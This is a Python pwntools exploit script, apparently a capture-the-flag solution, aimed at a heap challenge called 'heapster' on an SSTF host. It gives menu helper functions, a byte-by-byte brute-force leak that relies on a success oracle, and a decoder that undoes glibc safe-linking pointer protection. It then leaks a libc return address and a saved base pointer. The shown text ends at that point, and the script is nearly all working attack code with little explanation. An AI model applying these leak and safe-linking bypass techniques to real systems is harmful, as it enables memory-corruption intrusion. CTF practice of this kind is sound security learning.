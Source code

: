 

{% raw %}
```python
from pwn import *
# context.log_level = 'debug'

p = remote('heapster.sstf.site', 31339 )
# p = process('./chal')
e = ELF('./chal')

def s(x): return p.send(x)
def sl(x): return p.sendline(x)
def sa(x, y): return p.sendafter(x, y)
def sla(x, y): return p.sendlineafter(x, y)
def ru(x): return p.recvuntil(x)
def rl(): return p.recvline()
def ia(): return p.interactive()

def add(idx, payload):
    sla('cmd: ', '1')
    sl(str(idx))
    sl(payload)

def delete(idx):
    sla('cmd: ', '2')
    sl(str(idx))

def print():
    sla('cmd: ', '3')

def valid():
    sla('cmd: ', '4')

def leak(idx):
    l = log.progress("leaking data ... ")
    ret = b''

    for i in range(8):
        l.status(str(i))
        for j in range(1, 256):
            add(idx, ret + bytes([j]))
            valid()
            result = rl()[:-1]

            if (b"success" in result):
                ret += bytes([j])
                break
    l.success("Done")
    return u64(ret.ljust(8, b"\x00"))

def decrypt_safe_unlink(cipher):
    key = 0
    for i in range(1, 6):
        bits = 60-12*i
        if bits < 0:
            bits = 0

        decrypted = ((cipher ^ key) >> bits) << bits
        key = decrypted >> 12
    return decrypted

libc_start_main_ret = leak(21)
add(21, p64(libc_start_main_ret))
main_rbp = leak(10)
```